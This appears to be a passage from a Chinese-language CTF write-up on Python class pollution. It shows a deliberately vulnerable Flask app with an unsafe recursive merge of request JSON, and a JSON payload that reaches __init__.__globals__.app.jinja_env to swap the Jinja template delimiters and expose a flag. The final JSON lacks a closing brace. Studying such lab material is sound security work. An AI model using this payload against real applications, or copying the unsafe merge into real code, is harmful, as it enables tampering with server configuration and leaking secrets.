 ```plain
#app.py

from flask import Flask,request,render_template
import json

app = Flask(__name__)

def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class cls():
    def __init__(self):
        pass

instance = cls()

@app.route('/',methods=['POST', 'GET'])
def index():
    if request.data:
        merge(json.loads(request.data), instance)
    return "go check /index before merge it"


@app.route('/index',methods=['POST', 'GET'])
def templates():
    return render_template("test.html", flag = open("flag", "rt").read())

app.run(host="0.0.0.0")
```

我们想要通过{{flag}}的话，就需要将语法标识符进行替换，这里我们就将语法标识符从{{}}，替换为\[\[\]\] 这样的话，\[\[flag\]\] 就能够像{{flag}}一样被解析了。

```plain
{
    "__init__" : {
        "__globals__" : {
            "app" : {
                    "jinja_env" :{
"variable_start_string" : "[[","variable_end_string":"]]"
}        
            }
        }
    }
```
